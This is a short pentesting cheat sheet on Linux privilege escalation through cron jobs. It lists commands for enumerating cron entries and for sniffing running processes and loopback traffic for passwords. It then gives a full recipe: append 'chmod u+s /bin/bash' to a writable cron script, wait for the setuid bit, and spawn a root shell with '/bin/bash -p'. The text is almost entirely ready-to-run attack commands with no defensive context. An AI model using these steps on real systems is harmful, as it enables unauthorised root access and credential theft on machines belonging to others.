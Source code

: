 # Checking for cron
```bash
./pspy64
ls -lah /etc/cron*
sudo crontab -l
cat /etc/crontab
grep "CRON" /var/log/syslog
watch -n 1 "ps aux"
watch -n 1 "ps aux | grep pass"
sudo tcpdump -i lo -A | grep "pass"
```
-----------------------

# If full write is accessible to the found script
```bash
echo "chmod u+s /bin/bash" >> /path/to/script.sh

# Wait for our new permission
watch -n 1 "ls -la /bin/bash"

# Once we have our S set
/bin/bash -p
```

